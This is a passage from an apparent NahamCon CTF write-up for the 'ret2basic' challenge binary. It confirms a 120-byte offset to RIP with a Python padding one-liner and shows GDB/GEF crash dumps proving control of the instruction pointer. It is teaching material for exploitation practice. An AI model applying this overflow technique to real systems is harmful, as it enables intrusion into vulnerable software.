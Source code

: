 So RIP is at offset 120.

Let's confirm the same by sending 120 A's + 6 B's which should cause RIP to be overwritten as 0x0000424242424242 and by doing so we are loading RIP register with a canonical address.

```shell
cfx:  ~/Documents/nahamcon/binary
→ python3 -c "print ('A'*120 + 'BBBBBB')"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB
```

```shell
gef➤  r
Starting program: /root/Documents/nahamcon/binary/ret2basic
Can you overflow this?: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffdcf0 ('A' <repeats 120 times>, "BBBBBB")
RBX: 0x0
RCX: 0x7ffff7f9e980 --> 0xfbad208b
RDX: 0x0
RSI: 0x7ffff7f9ea03 --> 0xfa1680000000000a
RDI: 0x7ffff7fa1680 --> 0x0
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffdd70 --> 0x401360 (<__libc_csu_init>:    endbr64)
RIP: 0x424242424242 ('BBBBBB')
R8 : 0x7fffffffdcf0 ('A' <repeats 120 times>, "BBBBBB")
R9 : 0x0
R10: 0xfffffffffffff24a
R11: 0x246
R12: 0x401100 (<_start>:        endbr64)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x424242424242
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdd70 --> 0x401360 (<__libc_csu_init>:   endbr64)
0008| 0x7fffffffdd78 --> 0x7ffff7e06cca (<__libc_start_main+234>:       mov    edi,eax)
0016| 0x7fffffffdd80 --> 0x7fffffffde68 --> 0x7fffffffe219 ("/root/Documents/nahamcon/binary/ret2basic")
0024| 0x7fffffffdd88 --> 0x100000000
0032| 0x7fffffffdd90 --> 0x40133c (<main>:      push   rbp)
0040| 0x7fffffffdd98 --> 0x7ffff7e067d9 (<init_cacheinfo+297>:  mov    rbp,rax)
0048| 0x7fffffffdda0 --> 0x0
0056| 0x7fffffffdda8 --> 0x96382d43e61f4924
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000424242424242 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffdcf0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbx   : 0x0
$rcx   : 0x00007ffff7f9e980  →  0x00000000fbad208b
$rdx   : 0x0
$rsp   : 0x00007fffffffdd70  →  0x0000000000401360  →  <__libc_csu_init+0> endbr64
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007ffff7f9ea03  →  0xfa1680000000000a
$rdi   : 0x00007ffff7fa1680  →  0x0000000000000000
```